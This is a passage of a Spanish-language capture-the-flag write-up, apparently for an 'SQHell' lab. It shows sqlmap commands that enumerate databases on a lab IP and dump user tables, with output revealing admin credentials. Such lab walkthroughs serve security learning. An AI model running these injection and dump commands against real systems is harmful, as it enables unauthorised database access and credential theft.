```shell
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:28:14 /2025-07-28/

[13:28:14] [INFO] resuming back-end DBMS 'mysql' 
[...]
[13:28:14] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL 8
[13:28:14] [INFO] fetching database names
[13:28:14] [INFO] retrieved: 'information_schema'
[13:28:14] [INFO] retrieved: 'sqhell_4'
available databases [2]:                                                                                           
[*] information_schema
[*] sqhell_4

[13:28:14] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.231.166'

[*] ending @ 13:28:14 /2025-07-28/
```

Viendo que la base de datos que parece que quiero atacar es `sqhell_4`, voy a ver que más información puedo sacar de aquí, resumiré la información encontrada.

```shell
root@ip-10-10-4-119:~# sqlmap http://10.10.231.166/user?id=1 -D sqhell_4 -T users -C id,username,password --dump

+------+------------+----------+
| id   | password   | username |
+------+------------+----------+
| 1    | password   | admin    |
+------+------------+----------+

[*] ending @ 13:37:24 /2025-07-28/
```

Ya no encuentro más información aquí, voy a ver si con el apartado `post` hay más suerte.

>[!info] No encontré nada en post, pero me resulto curioso que no tuviera una tabla "común" puede que esto lo investigue más adelante. Ya que observo que las bases de datos hay hasta ¿4? pero no he encontrado la 1, mirare haber que puedo hacer.

```shell
root@ip-10-10-4-119:~# sqlmap -r /root/Prueba2 --dbms=Mysql -D sqhell_2 --dump-all
+------+----------+---------------------------------+
| id   | username | password                        |
+------+----------+---------------------------------+
| 1    | admin    | icantrememberthispasswordcanyou |
+------+----------+---------------------------------+
[*] ending @ 13:58:08 /2025-07-28/
```
